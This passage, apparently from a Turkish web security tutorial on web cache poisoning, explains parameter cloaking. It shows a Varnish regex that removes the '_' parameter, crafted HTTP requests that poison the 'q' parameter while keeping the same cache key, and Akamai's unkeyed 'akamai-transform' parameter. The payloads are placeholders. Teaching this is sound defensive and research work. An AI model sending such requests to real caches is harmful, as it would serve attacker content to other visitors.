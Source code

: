 ```bash
HTTP/1.1 301 Moved Permanently
Location: /login/?x=long-string…
CF-Cache-Status: HIT
```

Daha sonra bu yöntem de çözülmüş, ancak query değerini `Location` başlığına eklemeden önce başka dönüşüm işlemi yapan bir sunucu bulursanız bu çözümü de atlamanız mümkün olabilir.

## Önbellek Parametresi Gizleme

Eğer spesifik bir parametre önbellek anahtarı olarak kullanımdan hariç tutuluyorsa, kelime ayrıştırma yapıldığı için bu durumu manipüle ederek başka parametreleri de hariç tutmamız mümkün olabilir. Yani önbellek parametrelerini keyfi olarak gizlememiz mümkün olabilir.

Basit bir örnek ile başlamak için Varnish üzerinde “`_`” parametresi silmek üzere stackoverflow üzerinde sunulmuş regex örneğini ele alabiliriz. 

```bash
set req.http.hash_url = regsuball(
           req.http.hash_url,
           "\?_=[^&]+&",
           "?");
```

Bu regex’e aşağıdaki isteği gönderelim:

```bash
GET /search?q=help?!&search=1 HTTP/1.1
Host: example.com
```

Önbellek anahtarını değiştirmeden “**q**” parametresini aşağıdaki şekilde zehirleyebiliriz:

```bash
GET /search?q=help?_=payload&!&search=1 HTTP/1.1
Host: example.com
```

Regex, '**_**' parametresini kaldırmaya çalışırken, geride bir '**?**' bırakır. Bu nedenle, soru işareti içeren parametreleri zehirleyebiliriz. Yani aslında farklı parametreler içeren istekleri aynı önbellek anahtarı oluşturacak şekilde önbelleğe aldırmamız mümkündür. Bu sayede son derece sıradan gözüken istekler bile zararlı yükleri barındırıyor olabilir.

### Akamai

Akamai örneğinde, '**akamai-transform**' parametresinin önbellek anahtarına dahil edilmemesi nedeniyle parametre gizlemesi yapabiliyorsunuz. Bunun nasıl bir fayda sağladığını anlamak için detaylı bir inceleme yapalım.

```bash
GET /en?x=1&akamai-transform=payload-goes-here HTTP/1.1
Host: redacted.com
```

```bash
HTTP/1.1 200 OK
X-True-Cache-Key: /L/redacted.akadns.net/en?x=1 vcd=1234 cid=__
```
